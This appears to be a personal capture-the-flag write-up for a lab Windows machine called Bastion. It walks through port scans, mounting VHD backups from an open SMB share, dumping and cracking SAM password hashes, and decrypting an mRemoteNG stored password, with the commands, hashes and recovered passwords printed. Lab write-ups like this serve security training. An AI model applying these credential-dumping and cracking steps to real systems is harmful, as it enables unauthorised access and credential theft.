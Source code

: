 # Summary



## about target

tip:  10.129.4.213

hostname:  Bastion

Difficulty:  Easy



## about attack

+ Vhd file mount, sam/system secret dump.
+ install software, user\\<username>\Appdata\Roaming\xxx, config file may contain the pwd.



**attack note**

```bash
Basion / 10.129.4.213

PORT      STATE SERVICE      VERSION
22/tcp    open  ssh          OpenSSH for_Windows_7.9 (protocol 2.0)
| ssh-hostkey:
|   2048 3a56ae753c780ec8564dcb1c22bf458a (RSA)
|   256 cc2e56ab1997d5bb03fb82cd63da6801 (ECDSA)
|_  256 935f5daaca9f53e7f282e664a8a3a018 (ED25519)
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn?
445/tcp   open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  unknown
49668/tcp open  msrpc        Microsoft Windows RPC
49669/tcp open  unknown
49670/tcp open  msrpc        Microsoft Windows RPC


gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -u http://$tip  -o gobuster.log

---- smb enum

smbmap -u guest -p ''  -H $tip -R

sudo mount -t cifs //$tip/backups/WindowsImageBackup/L4mpje-PC  /mnt/L4mpje-PC/ -o user=anonymous

guestmount --add /mnt/L4mpje-PC/Backup\ 2019-02-22\ 124351/9b9cfbc3-369e-11e9-a17c-806e6f6e6963.vhd --inspector --ro /mnt/vhd/

sudo guestmount --add /mnt/L4mpje-PC/Backup\ 2019-02-22\ 124351/9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd --inspector --ro /mnt/vhd/


secretsdump.py -sam SAM -system SYSTEM local

Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
L4mpje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::

---- exploit
# crack hash
echo '26112010952d963c8dc4217daec986d9' > hash
hashcat -m 1000 -a 0 hash /usr/share/wordlists/rockyou.txt

---- local enum

RegPath: HKLM\Software\Microsoft\Active Setup\Installed Components\{44BBA840-CC51-11CF-AAFA-00AA00B6015C}
Key: StubPath
Folder: C:\Program Files\Windows Mail
File: C:\Program Files\Windows Mail\WinMail.exe OCInstallUserConfigOE (Unquoted and Space detected)

```







# Enumeration

## nmap scan

light scan

```bash
nmap -p- --min-rate=1000 -T4 -oN nmap.light $tip


```



Heavy scan

```bash
export port=$(cat nmap.light | grep ^[0-9] | cut -d "/" -f 1 | tr "\n" "," | sed s/,$//)
sudo nmap -A -O -p$port -sC -sV -T4 -oN nmap.heavy $tip

PORT      STATE SERVICE      VERSION
22/tcp    open  ssh          OpenSSH for_Windows_7.9 (protocol 2.0)
| ssh-hostkey:
|   2048 3a56ae753c780ec8564dcb1c22bf458a (RSA)
|   256 cc2e56ab1997d5bb03fb82cd63da6801 (ECDSA)
|_  256 935f5daaca9f53e7f282e664a8a3a018 (ED25519)
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn?
445/tcp   open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  unknown
49668/tcp open  msrpc        Microsoft Windows RPC
49669/tcp open  unknown
49670/tcp open  msrpc        Microsoft Windows RPC
```



## http enum

dir scan, nohting found.

```bash
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -u http://$tip  -o gobuster.log
```



## smb enum

smb nmap script scan, nothing found.



check smb share, found backups file, which contains vhd file.

```bash
smbmap -u guest -p ''  -H $tip -R
```



mount vhd file.

```bash
sudo mount -t cifs //$tip/backups/WindowsImageBackup/L4mpje-PC  /mnt/L4mpje-PC/ -o user=anonymous

# not work, check the other vhd file.
guestmount --add /mnt/L4mpje-PC/Backup\ 2019-02-22\ 124351/9b9cfbc3-369e-11e9-a17c-806e6f6e6963.vhd --inspector --ro /mnt/vhd/

sudo guestmount --add /mnt/L4mpje-PC/Backup\ 2019-02-22\ 124351/9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd --inspector --ro /mnt/vhd/

```



![image-20221026102740570](./images/image-20221026102740570.png)

copy sam and system, dump creds.

```bash
secretsdump.py -sam SAM -system SYSTEM local

Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
L4mpje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::
```



![image-20221026102645013](./images/image-20221026102645013.png)



# Exploitation

crack hash and connect via ssh.

```bash
echo '26112010952d963c8dc4217daec986d9' > hash
hashcat -m 1000 -a 0 hash /usr/share/wordlists/rockyou.txt
```

L4mpje:bureaulampje

![image-20221026104208164](./images/image-20221026104208164.png)



ssh 

```bash
ssh l4mpje@$tip
```



![image-20221026104731079](./images/image-20221026104731079.png)



# Privesc



## local Enum

Wpeas enum, nothing found.

c:\Users\L4mpje\AppData\Roaming\mRemoteNG, found the mRemote config file, contains password.

![image-20221026113259137](./images/image-20221026113259137.png)

![image-20221026113315169](./images/image-20221026113315169.png)

Decrypt password. https://github.com/haseebT/mRemoteNG-Decrypt

thXLHM96BeKL0ER2

```bash
python mremoteng_decrypt.py -s aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw==
```

![image-20221026112342335](./images/image-20221026112342335.png)



## System



![image-20221026112352309](./images/image-20221026112352309.png)

## proof

```bash


```



